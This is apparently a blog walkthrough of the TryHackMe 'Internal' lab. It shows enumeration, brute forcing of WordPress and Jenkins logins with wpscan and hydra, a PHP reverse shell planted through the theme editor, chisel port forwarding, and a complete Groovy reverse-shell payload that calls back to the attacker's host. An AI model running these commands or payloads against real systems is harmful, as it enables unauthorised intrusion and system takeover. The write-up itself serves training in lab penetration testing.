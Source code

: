 ```yaml
---
title: TryHackMe - Internal
author: Fawaz Masood Qureshi
date: 2021-04-12 16:30:00 +0500
comments: false
categories: [CTF-Walkthroughs, Tryhackme-Rooms]
tags: [ctf, cyber security, tryhackme]
---
```


# Enumeration
Lets start our nmap scan and see what ports are open and what services are running on these ports.
## nmap scan result:

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-08 19:18 PKT  
Nmap scan report for 10.10.94.39 (10.10.94.39)  
Host is up (0.49s latency).  
  
PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:    
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)  
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)  
|\_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)  
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))  
|\_http-server-header: Apache/2.4.29 (Ubuntu)  
|\_http-title: Apache2 Ubuntu Default Page: It works  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux\_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 32.28 seconds

```

So we have two ports open, 22 and 80. Let us first enumerate the content on port 80.

## Enumerating the port 80:
First thing we can do is to check for any files or directories on the server:
```bash
dirsearch -u http://10.10.94.39/ -e php,html,bak -w /wordlists/directory-list-2.3-medium.txt -t 100
```
![](/assets/img/posts/thm-internal/Screenshot_20210408_195726.png)

If we visit the **/blog/** page, we can see it is using wordpress cms. Lets use wpscan:
```bash
wpscan --url http://10.10.179.3/blog/ -e u
```
wpscan found a username **admin**.  So now we can try to bruteforce the passwords. Hydra can be used, but wpscan can also be used for this purpose:
```bash
wpscan --url http://10.10.179.3/blog/ -e u -t 400 -P /wordlists/rockyou.txt
```
Found a valid password for user **admin**:

![](/assets/img/posts/thm-internal/Screenshot_20210409_173140.png)

So now we can use these credentials and login as admin at http://internal.thm/blog/wp-login.php.
> If you are not able to access the internal.thm on your browser, you need to add the domain name and IP to your `/etc/hosts` file.

While checking the admin panel, we see that there are two posts. From which one is private. This post contains some sort of credentials.

![](/assets/img/posts/thm-internal/Screenshot_20210409_181146.png)

Hmm! So maybe we can try those on port 22? Unfortunately, it did not work. Seems like a rabbit hole :( Lets continue with the admin panel.
Well in the themes section, we can see a theme **twenty seventeen** is installed. Lets edit this one.
We have access to mutiple **.php** files. So simply uploading a reverse shell in one file can give us a shell!

![](/assets/img/posts/thm-internal/Screenshot_20210409_182015.png)

I used the following reverse shell from pentestmonkey github repo:
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

After setting up a netcat listener we can browse to non-existing endpoint on the blog so that the 404.php code runs. As soon as we hit the 404.php, we will get a reverse shell:

![](/assets/img/posts/thm-internal/Screenshot_20210409_182822.png)

Okay, we are in! 

# Post exploitation
We can see a user `aubreanna` in the home directory. Doing a little enumeration on the box will reveal that there is a jenkins server running locally:
```bash
netstat -anotp
```

![](/assets/img/posts/thm-internal/Screenshot_20210409_211849.png)

You can see that port **8080** is open and listening. Now if you list the processes, you will see a java program running (which is jenkins):
```bash
ps aux
```

![](/assets/img/posts/thm-internal/Screenshot_20210409_212153.png)

> Jenkins is a free and open source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and continuous delivery.

Googling about jenkins reveals that the default port for jenkins is **8080**.

## Port Forward
To access the jenkins from our local machine, we'll need to forward the port. I'll be using **chisel**.

First we'll need to get the chisel binary on the target system. This can be done usng a smple python server. 
Once we have chisel on the target we can start chisel server at target:
```bash
chisel server -p 6666	# we can choose any random port
```
Then on our local machine:
```bash
chisel client <Target Ip>:6666 9999:127.0.0.1:8080	# 9999 is our local machine's port
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_194257.png)

Now you'll be able to access the jenkin from your local machine at the address **`127.0.0.1:9999`:**

![](/assets/img/posts/thm-internal/Screenshot_20210410_194426.png)

I tried the credentials that we found so far but both did not worked. So lets brutforce the login. We'll be using Hydra here:

```bash
hydra -l admin -P /wordlists/rockyou.txt 127.0.0.1 -s 9999  http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid+username+or+password'
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_212228.png)

And we found the password. Using that passowrd we can login as admin in jenkins.
Once we are in, we can run groovy script on the jenkins console. I used the following reverse shell written in groovy:

```groovy
String host="Our-machine-ip";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](/assets/img/posts/thm-internal/Screenshot_20210410_213433.png)

And we got a shell as user jenkins. Doing a little enumeration reveals that there is a file at **`/opt`** containing credentials for root user:

```
jenkins@jenkins:/opt$ cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:PASS-WILL-BE-HERE
```

So we just need to switch user to root or we can ssh into target as root. Whatever you prefer.

![](/assets/img/posts/thm-internal/Screenshot_20210410_215257.png)

And the box is finally rooted!

I hope you enjoyed while reading this walkthrough and learnt something today.
